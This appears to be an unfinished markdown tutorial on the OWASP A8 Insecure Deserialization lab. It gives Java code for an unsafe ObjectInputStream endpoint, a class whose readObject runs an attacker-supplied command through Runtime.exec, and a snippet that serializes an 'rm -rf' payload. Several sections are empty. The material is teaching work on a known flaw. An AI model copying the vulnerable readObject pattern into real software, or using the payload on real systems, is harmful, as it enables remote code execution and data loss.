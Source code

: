 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**  *generated with [DocToc](https://github.com/thlorenz/doctoc)*

- [A8 - Insecure Deserialization](#a8---insecure-deserialization)
  - [Insecure Deserialization](#insecure-deserialization)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

# A8 - Insecure Deserialization

## Insecure Deserialization

### 1. Concept 

### 2. What is Serialization

Today, the most popular data format for serializin data is JSON.
Before that, it was XML.

### 3. The Simplest Exploit

Java Deserialization vulnerability (executing `readObject()` before the casting occurs):

```java
InputStream is = request.getInputStream();
ObjectInputStream ois = new ObjectInputStream(is);
AcmeObject acme = (AcmeObject)ois.readObject();
```

Class that supports serialization and with dangerous implementations on `readObject()`:

```java
package org.dummy.insecure.framework;

import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.io.ObjectInputStream;
import java.io.Serializable;
import java.time.LocalDateTime;

public class VulnerableTaskHolder implements Serializable {

	private static final long serialVersionUID = 1;

	private String taskName;
	private String taskAction;
	private LocalDateTime requestedExecutionTime;

	public VulnerableTaskHolder(String taskName, String taskAction) {
		super();
		this.taskName = taskName;
		this.taskAction = taskAction;
		this.requestedExecutionTime = LocalDateTime.now();
	}

	private void readObject( ObjectInputStream stream ) throws Exception {
		//deserialize data so taskName and taskAction are available
		stream.defaultReadObject();

		//blindly run some code. #code injection
		Runtime.getRuntime().exec(taskAction);
	}
}
```

Exploit

```java
VulnerableTaskHolder go = new VulnerableTaskHolder("delete all", "rm -rf somefile");

ByteArrayOutputStream bos = new ByteArrayOutputStream();

ObjectOutputStream oos = new ObjectOutputStream(bos);
oos.writeObject(go);
oos.flush();

byte[] exploit = bos.toByteArray();
```

### 4. What is a Gadgets Chain

### 5. Let's try

\#FIXME script/A8-insecure-deserialization.java
